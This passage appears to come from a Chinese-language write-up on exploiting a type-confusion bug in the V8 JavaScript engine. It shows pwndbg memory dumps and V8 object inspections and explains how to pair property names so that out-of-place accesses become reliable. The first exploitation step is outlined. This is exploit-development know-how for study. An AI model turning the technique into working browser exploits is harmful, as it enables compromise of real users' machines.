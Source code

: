 ```c
   #b: 7 (data, dict_index: 4, attrs: [WEC])
   #d: 9 (data, dict_index: 6, attrs: [WEC])
   #c: 8 (data, dict_index: 5, attrs: [WEC])
   #x: 2 (data, dict_index: 1, attrs: [WEC])
 }

pwndbg> x/10gx 0x135d0948e591-1+0x38
0x135d0948e5c8:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e5d8:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e5e8:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e5f8:	0x00002401a4406959	0x0000000200000000
0x135d0948e608:	0x000002c000000000	0x00002b96c5a825a1
pwndbg> 
0x135d0948e618:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e628:	0x00002401a4406971	0x0000000300000000
0x135d0948e638:	0x000003c000000000	0x00002b96c5a825a1
0x135d0948e648:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e658:	0x00002b96c5a825a1	0x00002b96c5a825a1
pwndbg> x/10gx 0x135d0948e781-1+0x38
0x135d0948e7b8:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e7c8:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e7d8:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e7e8:	0x00002401a4406959	0x0000000300000000
0x135d0948e7f8:	0x000002c000000000	0x00002b96c5a825a1
pwndbg> 
0x135d0948e808:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e818:	0x00002401a4406971	0x0000000400000000
0x135d0948e828:	0x000003c000000000	0x00002b96c5a825a1
0x135d0948e838:	0x00002b96c5a825a1	0x00002b96c5a825a1
0x135d0948e848:	0x00002b96c5a825a1	0x00002b96c5a825a1
```

利用上述特性，可以找到一对用于类型混淆，相互对应的属性名一直使用，比如这次访问p1，由于漏洞访问到p4，那么新建一个各个属性相同的对象，访问p1, 因为访问固定偏移，这个偏移填的就是p4，所以还是访问到p4。  如果没有这个特性，那么这次p1对应p4，下次就不一定对应p4了。 

漏洞利用步骤：

（1）找到一对相互对应的属性名

首先设置有规律的键值对：{'pi' => -i }，经过Object.create后，变成无序的hash表，利用propertyNames.map对键值对排个序，返回的r数组是按照pi进行排序的，未触发漏洞前是按照键值对{'pi' => -i }排列的：

```c
pwndbg> job 0x368e3b799919
0x368e3b799919: [JSArray]
 - map: 0x2ec2a5184fa1 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x127403a93b61 <JSArray[0]>
 - elements: 0x368e3b799949 <FixedArray[48]> [PACKED_ELEMENTS]
 - length: 48
 - properties: 0x3a3f0b402cf1 <FixedArray[0]> {
    #length: 0x1e9af6f952c1 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x368e3b799949 <FixedArray[48]> {
           0: 0x3a3f0b4025a1 <undefined>
           1: -1
           2: -2
           3: -3
           4: -4
           5: -5
           6: -6
           7: -7
           8: -8
           9: -9
          10: -10
			……
```
